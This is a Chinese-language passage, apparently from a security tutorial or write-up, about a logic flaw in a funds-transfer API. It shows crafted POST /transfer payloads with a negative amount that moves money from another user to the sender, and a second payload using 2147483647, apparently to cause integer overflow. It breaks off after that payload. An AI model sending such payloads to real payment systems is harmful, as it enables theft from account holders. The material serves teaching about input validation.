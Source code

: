 如果在正常情况下，执行的结果应该是：

```
Before:
Self:                        = 2000
User a:                      = 500
User b:                      = 500

After:
Self: 2000 - ((100) + (200)) = 1700
User a: 500 + (100)          = 600
User b: 500 + (200)          = 700
```

接下来，开始构造特殊数据：

```
POST /transfer
{
    "trans": [{
        "toUser": "5a69b8f865bdcc26a2ca32ee",
        "amount": -100
    }, {
        "toUser": "5a69b8f865bdcc26a2ca32ef",
        "amount": 200
    }]
}
```

于是，结果变为:

```
Before:
Self:                         = 2000
User a:                       = 500
User b:                       = 500

After:
Self: 2000 - ((-100) + (200)) = 1900
User a: 500 + (—100)          = 400
User b: 500 + (200)           = 700
```

再比如：

```
POST /transfer
{
    "trans": [{
        "toUser": "5a69b8f865bdcc26a2ca32ee",
        "amount": 2147483647
    }, {
        "toUser": "5a69b8f865bdcc26a2ca32ef",
        "amount": 1
    }]
}
```
